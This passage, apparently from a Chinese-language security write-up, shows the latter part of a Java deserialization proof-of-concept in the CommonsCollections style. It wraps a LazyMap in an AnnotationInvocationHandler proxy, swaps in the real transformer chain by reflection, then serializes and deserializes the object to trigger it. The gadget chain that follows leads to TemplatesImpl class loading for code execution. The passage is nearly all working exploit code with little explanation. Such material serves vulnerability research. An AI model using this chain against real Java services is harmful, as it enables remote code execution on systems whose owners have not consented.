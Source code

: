 ```java
        InvocationHandler map_handler = (InvocationHandler) handler_construct.newInstance(Override.class, mapDemo);
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class}, map_handler);
        Constructor AnnotationInvocationHandler_Construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Construct.newInstance(Override.class, proxy_map);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
		ObjectInputStream.readObject()
					AnnotationInvocationHandler.readObject()
						Map(Proxy).entrySet()
							AnnotationInvocationHandler.invoke()
								LazyMap.get()
									ChainedTransformer.transform()
									ConstantTransformer.transform()
									InstantiateTransformer.transform()
									newInstance()
										TrAXFilter#TrAXFilter()
										TemplatesImpl.newTransformer()
												TemplatesImpl.getTransletInstance()
												TemplatesImpl.defineTransletClasses
												newInstance()
```